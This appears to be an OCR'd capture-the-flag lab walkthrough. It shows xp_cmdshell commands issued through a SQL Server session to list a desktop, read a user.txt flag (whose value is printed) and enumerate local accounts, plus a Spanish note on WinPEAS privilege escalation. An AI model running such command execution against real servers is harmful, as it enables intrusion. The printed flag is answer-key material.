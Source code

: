  Directory of c:\users\sql_svc\Desktop                                             

NULL                                                                               

01/20/2020  06:42 AM    <DIR>          .                                           

01/20/2020  06:42 AM    <DIR>          ..                                          

02/25/2020  07:37 AM                32 user.txt                                    

               1 File(s)             32 bytes                                      

               2 Dir(s)  10,714,968,064 bytes free                                 

NULL                                                                               

SQL> xp_cmdshell type c:\users\sql_svc\Desktop\user.txt;
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is 9565-0B4F                                                 

NULL                                                                               

 Directory of c:\users\sql_svc\Desktop                                             

NULL                                                                               

02/25/2020  07:37 AM                32 user.txt                                    

               1 File(s)             32 bytes                                      

               0 Dir(s)  10,714,968,064 bytes free                                 

NULL                                                                               

SQL> xp_cmdshell type c:\users\sql_svc\Desktop\user.txt;
output                                                                             

--------------------------------------------------------------------------------   

3e7b102e78218e935bf3f4951fec21a3               



WINPEAS - para descubrir posibles rutas para escala privilegios.


   SQL> xp_cmdshell net users
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

User accounts for \\ARCHETYPE                                                      

NULL                                                                               

-------------------------------------------------------------------------------    

Administrator            DefaultAccount           Guest                            

